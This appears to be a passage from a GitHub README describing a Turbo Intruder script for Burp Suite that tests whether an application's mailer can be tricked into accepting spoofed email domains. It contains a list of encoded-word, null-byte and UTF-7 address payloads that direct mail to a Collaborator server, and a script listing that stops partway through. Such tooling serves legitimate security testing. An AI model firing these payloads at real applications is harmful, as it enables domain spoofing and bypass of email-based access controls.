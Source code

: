## Tools
### Turbo Intruder automation scripts

This script is used when you've identified that the server supports encoded-word but you want to know if the mailer will allow you to split the email by using nulls or other characters. It uses a list of known techniques that split an email

To use it you just need to change the validServer variable to your target domain to spoof. You then place %s in the request where you want your email to be added and then right click on the request and send to Turbo Intruder and use the modified script. Then run the attack. If the attack works you should receive a collaborator interaction within Turbo Intruder. This means the email domain is spoofable.

If you encounter applications with rate limits change the **REQUEST_SLEEP** variable to play nicely with those servers.

#### encoded-word.py

```python
import base64
import urllib

REQUEST_SLEEP = 1
COLLAB_SLEEP = 10


payloads = ["=?x?q?$collab1=40$collabServer=3e=00?=foo@$validServer","=?x?q?$collab1=40$collabServer=3e=01?=foo@$validServer", "=?x?q?$collab1=40$collabServer=3e=02?=foo@$validServer"
            "=?x?q?$collab1=40$collabServer=3e=03?=foo@$validServer","=?x?q?$collab1=40$collabServer=3e=04?=foo@$validServer", "=?x?q?$collab1=40$collabServer=3e=05?=foo@$validServer",
            "=?x?q?$collab1=40$collabServer=3e=07?=foo@$validServer","=?x?q?$collab1=40$collabServer=3e=08?=foo@$validServer", "=?x?q?$collab1=40$collabServer=3e=0e?=foo@$validServer",
            "=?x?q?$collab1=40$collabServer=3e=0f?=foo@$validServer","=?x?q?$collab1=40$collabServer=3e=10?=foo@$validServer", "=?x?q?$collab1=40$collabServer=3e=11?=foo@$validServer",
            "=?x?q?$collab1=40$collabServer=3e=13?=foo@$validServer","=?x?q?$collab1=40$collabServer=3e=15?=foo@$validServer", "=?x?q?$collab1=40$collabServer=3e=16?=foo@$validServer",
            "=?x?q?$collab1=40$collabServer=3e=17?=foo@$validServer","=?x?q?$collab1=40$collabServer=3e=19?=foo@$validServer", "=?x?q?$collab1=40$collabServer=3e=1a?=foo@$validServer",
            "=?x?q?$collab1=40$collabServer=3e=1b?=foo@$validServer","=?x?q?$collab1=40$collabServer=3e=1c?=foo@$validServer", "=?x?q?$collab1=40$collabServer=3e=1d?=foo@$validServer",
            "=?x?q?$collab1=40$collabServer=3e=1f?=foo@$validServer","=?x?q?$collab1=40$collabServer=3e=20?=foo@$validServer", "=?x?q?$collab1=40$collabServer=2c?=x@$validServer",
            "=?utf7?q?$collab1&AEA-$collabServer&ACw-?=x@$validServer","=?utf7?q?$collab1&AEA-$collabServer&ACw=/xyz!-?=x@$validServer",
            "=?utf7?q?$collab1=26AEA-$collabServer=26ACw-?=x@$validServer","$collab1=?utf7?b?JkFFQS0?=$collabServer=?utf7?b?JkFDdy0?=x@$validServer","$collab1=?x?b?QA==?=$collabServer=?x?b?LA==?=x@$validServer"
           ]
           
invalidServer = "blah.blah"
validServer = "iwantto.spoof"
shouldUrlEncode = False
collab = callbacks.createBurpCollaboratorClientContext()
collabServer = collab.getCollaboratorServerLocation()
mappings = {}

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=100,
                           pipeline=False,                     
                           maxRetriesPerRequest=3
                           )

```
